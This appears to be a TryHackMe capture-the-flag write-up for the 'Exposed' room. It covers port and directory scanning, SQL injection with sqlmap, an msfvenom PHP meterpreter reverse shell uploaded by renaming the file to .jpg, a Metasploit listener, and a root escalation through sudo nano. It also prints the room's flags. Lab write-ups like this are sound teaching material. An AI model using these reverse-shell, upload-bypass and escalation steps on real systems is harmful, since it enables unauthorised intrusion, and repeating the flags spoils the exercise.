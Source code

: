 # Exposed | TryHackMe Write-up

##  Overview

**Room:** Exposed  
**Difficulty:** Easy  
**Tags:** Enumeration, SQL Injection, LFI, File Upload, Privilege Escalation

---

##  Enumeration

### Nmap

Quick port scan:

```bash
sudo nmap -sC -sV -oN <IP>
```



Full port scan:

```bash
nmap -p- -oN <IP>
```



**Found:**
- HTTP on port 1337  
- FTP (no useful information)

---

### Gobuster

Directory fuzzing on the web server:

```bash
gobuster dir -u http://<IP>:1337/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html
```


**Discovered directories:** `/admin_101`, `/phpMyAdmin`, `/admin`, `/javascript`

---

##  SQL Injection

Login to `/admin_101` through the login form.  
Intercept the request via Burp Suite and save it as `expose.req`.



### SQLMap

Check for SQL vulnerability:

```bash
python3 sqlmap.py -r expose.req --dump
```



**Database credentials found:**
- Email: `hacker@root.thm`  
- Password: `password`

Use them to log in to the site.

---

##  File Upload Shell Access

Create a PHP reverse shell using msfvenom:

```bash
msfvenom -p php/meterpreter/reverse_tcp LHOST=10.11.146.237 LPORT=4444 -o exploit.php
```

Rename the file to `exploit.php.jpg` to bypass upload filters and upload it via the web form.



URL to trigger the shell:

```
http://<IP>:1337/upload_thm_1001/exploit.php
```

---

### Metasploit Listener Setup

```bash
msfconsole
use exploit/multi/handler
set payload php/meterpreter/reverse_tcp
set LHOST 10.11.146.237
set LPORT 4444
run
```



Reverse shell obtained with `www-data` privileges.

---

##  Privilege Escalation

### Accessing user `zeamkish`

Found credentials file:

```
/home/zeamkish/ssh_creds.txt
```

SSH login:

```bash
ssh zeamkish@<IP>
```

### Escalating to root

1. Check available sudo commands:

```bash
sudo -l
```

2. Find SUID binaries:

```bash
find / -type f -perm -4000 2>/dev/null
```

3. Use `/usr/bin/nano` for escalation:

```bash
sudo nano /etc/sudoers
sudo -i
```

Root shell obtained.

---

##  Flags

- **User flag:** `THM{USER_FLAG_1231_EXPOSE}`  
- **Root flag:** `THM{ROOT_EXPOSED_1001}`

---

##  Conclusion

We successfully completed the following steps:

1. Port and web resource scanning  
2. SQL injection to obtain credentials  
3. PHP reverse shell upload via File Upload  
4. Initial shell access as `www-data`  
5. SSH access to user `zeamkish`  
6. Privilege escalation to root via SUID binary

*Screenshots can be added to the `screenshots/` folder for clarity.*
